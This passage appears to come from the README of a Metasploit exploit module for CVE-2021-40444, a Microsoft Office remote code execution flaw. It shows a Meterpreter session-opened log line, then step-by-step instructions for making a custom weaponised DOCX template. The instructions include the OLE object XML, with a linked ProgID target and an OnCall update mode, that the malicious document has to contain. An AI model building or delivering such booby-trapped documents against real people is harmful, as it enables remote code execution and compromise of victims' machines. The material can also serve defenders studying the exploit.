     [*] Meterpreter session 1 opened (172.20.7.36:4444 -> 172.20.7.36:57920) at 2021-11-05 16:41:13 +0400
    ```

### Using custom template

1. Generate a custom DOCX template

    You need to create new office document and personalizing it by your own model (CV, Report, ...).
    
    The easy way, copy and paste (keep formatting) from `data/exploits/cve-2021-40444.docx`.
    
    You can copy this anywhere in the document.
    
    Save the document and unpack this.
    
    Check that `word/document.xml` contains something like:
    
    ```
    &lt;w:object w:dxaOrig=&quot;4320&quot; w:dyaOrig=&quot;4320&quot;&gt;
      &lt;v:shapetype id=&quot;_x0000_t75&quot; coordsize=&quot;21600,21600&quot; o:spt=&quot;75&quot; o:preferrelative=&quot;t&quot; path=&quot;m@4@5l@4@11@9@11@9@5xe&quot; filled=&quot;f&quot; stroked=&quot;f&quot;&gt;
        &lt;v:stroke joinstyle=&quot;miter&quot;/&gt;
        &lt;v:formulas&gt;
          &lt;v:f eqn=&quot;if lineDrawn pixelLineWidth 0&quot;/&gt;
          &lt;v:f eqn=&quot;sum @0 1 0&quot;/&gt;
          &lt;v:f eqn=&quot;sum 0 0 @1&quot;/&gt;
          &lt;v:f eqn=&quot;prod @2 1 2&quot;/&gt;
          &lt;v:f eqn=&quot;prod @3 21600 pixelWidth&quot;/&gt;
          &lt;v:f eqn=&quot;prod @3 21600 pixelHeight&quot;/&gt;
          &lt;v:f eqn=&quot;sum @0 0 1&quot;/&gt;
          &lt;v:f eqn=&quot;prod @6 1 2&quot;/&gt;
          &lt;v:f eqn=&quot;prod @7 21600 pixelWidth&quot;/&gt;
          &lt;v:f eqn=&quot;sum @8 21600 0&quot;/&gt;
          &lt;v:f eqn=&quot;prod @7 21600 pixelHeight&quot;/&gt;
          &lt;v:f eqn=&quot;sum @10 21600 0&quot;/&gt;
        &lt;/v:formulas&gt;
        &lt;v:path o:extrusionok=&quot;f&quot; gradientshapeok=&quot;t&quot; o:connecttype=&quot;rect&quot;/&gt;
        &lt;o:lock v:ext=&quot;edit&quot; aspectratio=&quot;t&quot;/&gt;
      &lt;/v:shapetype&gt;
      &lt;v:shape id=&quot;_x0000_i1025&quot; type=&quot;#_x0000_t75&quot; style=&quot;width:3.75pt;height:3.75pt&quot; o:ole=&quot;&quot;&gt;
        &lt;v:imagedata r:id=&quot;rId4&quot; o:title=&quot;&quot; cropbottom=&quot;64444f&quot; cropright=&quot;64444f&quot;/&gt;
      &lt;/v:shape&gt;
      &lt;o:OLEObject Type=&quot;Link&quot; ProgID=&quot;TARGET_HERE&quot; ShapeID=&quot;_x0000_i1025&quot; DrawAspect=&quot;Content&quot; r:id=&quot;rId5&quot; UpdateMode=&quot;OnCall&quot;&gt;
        &lt;o:LinkType&gt;EnhancedMetaFile&lt;/o:LinkType&gt;
        &lt;o:LockedField&gt;false&lt;/o:LockedField&gt;
        &lt;o:FieldCodes&gt;\f 0&lt;/o:FieldCodes&gt;
      &lt;/o:OLEObject&gt;
    &lt;/w:object&gt;
    ```
    